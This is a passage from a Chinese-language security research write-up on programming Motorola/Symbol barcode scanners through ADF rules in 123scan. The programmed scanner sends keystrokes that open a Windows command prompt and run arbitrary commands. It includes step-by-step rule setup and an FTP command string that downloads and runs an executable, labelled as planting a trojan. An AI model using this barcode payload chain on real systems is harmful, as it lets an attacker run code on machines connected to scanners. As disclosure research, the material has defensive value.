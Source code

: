 视频中用了一叠条形码，依次扫描，扫描了十多次就出来个cmd，可能这与扫描器型号也有关系。

![p22](http://drops.javaweb.org/uploads/images/d4a86cae2a74f5ace2c28753b4cb4584706ca8d4.jpg)

这样的话不管是规则生成和利用都非常繁琐，其实是可以优化的，ADF的规则可以合并。利用motorola的扫描器软件123scan。

![p23](http://drops.javaweb.org/uploads/images/ee065057b65c11e805beb140fe07cb332e441aa6.jpg)

123scan是摩托罗拉官方出品非常强大的扫描器管理软件，在其官网可以下载。功能很多，在这里就介绍利用123scan设置ADF。

打开后点击"Create new configuration file"->"My scanner is NOT connected"->选择扫描器->"Mondify data"->"Program complex data modifications"->"Create a new rule"。

![p24](http://drops.javaweb.org/uploads/images/6c9818e7752121f63ef8f28a88ab02e240cf2460.jpg)

点击Add action就是添加规则。

![p25](http://drops.javaweb.org/uploads/images/0d3f88487b631d19cd55ef307dc61340b81d5f8e.jpg)

ADF所有规则都在里面，包括Beep控制（控制扫描器蜂鸣），Replace等。

![p26](http://drops.javaweb.org/uploads/images/3dcbc1d1fe06a37bcd5b3feba64ba55a044cd1b0.jpg)

设置延时0.5秒，依次添加规则。

![p27](http://drops.javaweb.org/uploads/images/d40301f81e5625c90d7f53f9aa568570aefababb.jpg)

最后会自动合并条形码并输出。

![p28](http://drops.javaweb.org/uploads/images/9e2d5f7a4b9708659926acb89544d0a40699ef38.jpg)

以上就是执行任意命令的条形码payload，除去1和2的设置出厂设置和清除所有规则，只需要4个条形码就可以执行任意单条命令。其中Send ALL that remains是代表设置ADF后扫描条形码的原本数据。 以上四组条形码的ADF流程是:输入WIN+R键->延时0.5秒->输入c键->输入m键->输入d键->输入回车->延时0.5秒->执行条形码的内容，而随后的Send ALL that remains就是你要执行的命令，可以多行命令，要是单行命令基本上4条就够不需要加Send ALL that remains。

**利用ADF种植木马**

既然已经可以执行cmd命令，最简单的方法就是利用ftp下载执行任意程序。上面提到的Send ALL that remains可以用BarTender生成出FTP命令。

![p29](http://drops.javaweb.org/uploads/images/b2bd6be645907af85dc1da9f64ee540cf14b205a.jpg)

```
ftp test«CR»a«CR»a«CR»get w.exe«CR»bye«CR»w.exe«CR»get w.exe«CR»bye«CR»w.exe«CR»

```

下面给出我们的demo视频，是已经经过扫描四次ADF设置后。不管扫描什么条形码执行到Send ALL that remains。视频中是利用FTP命令执行。

（测试型号Symbol-LS4208-SR20001ZZR）

[http://v.youku.com/v_show/id_XMTQ0ODY0ODg1Ng==.html?from=y1.7-1.2](http://v.youku.com/v_show/id_XMTQ0ODY0ODg1Ng==.html?from=y1.7-1.2)

密码:wooyun520

0x07 攻击场景
=====
